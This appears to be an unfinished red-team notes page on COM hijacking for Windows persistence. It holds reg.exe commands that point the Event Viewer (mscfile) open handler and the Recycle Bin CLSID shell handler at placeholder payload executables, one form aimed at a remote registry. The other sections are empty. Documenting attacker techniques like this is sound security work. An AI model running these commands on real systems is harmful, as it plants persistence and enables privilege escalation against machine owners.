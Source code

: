 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1122
  - windows
---
```

# COM Hijacking

TODO: Fill this info

## Event Viewer

### Command Prompt

```
C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

### PowerShell

```

```

## Recycle Bin

### Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f
```

### PowerShell

```

```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Bypass User Access Control/Types of Bypassing UAC/MMC/Manual]]

### Persistence Info

- [Persistence Info: Recycle Bin COM Extension Handler](https://persistence-info.github.io/Data/recyclebin.html)

### Red Team Notes

- [Red Team Notes: COM Hijacking](https://www.ired.team/offensive-security/persistence/t1122-com-hijacking)
